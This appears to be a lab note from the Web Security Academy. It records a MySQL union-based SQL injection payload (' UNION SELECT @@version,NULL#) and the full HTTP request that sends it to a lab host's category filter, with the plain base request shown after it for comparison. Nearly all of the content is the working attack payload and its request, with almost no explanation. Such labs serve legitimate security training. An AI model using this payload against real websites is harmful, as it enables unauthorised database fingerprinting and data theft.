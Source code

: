 ' UNION SELECT @@version,NULL# 
mySQL
##### Payload Request
GET /filter?category=Gifts _' UNION SELECT @@version,NULL#_ HTTP/2
Host: 0a3a00be03ccb30b80582b52006000a3.web-security-academy.net
Cookie: session=LvfuJAIHgIy0ihXC9PCR9ZmqhslkPPYB
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3a00be03ccb30b80582b52006000a3.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

##### Base request
GET /filter?category=Gifts HTTP/2
Host: 0a3a00be03ccb30b80582b52006000a3.web-security-academy.net
Cookie: session=LvfuJAIHgIy0ihXC9PCR9ZmqhslkPPYB
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3a00be03ccb30b80582b52006000a3.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

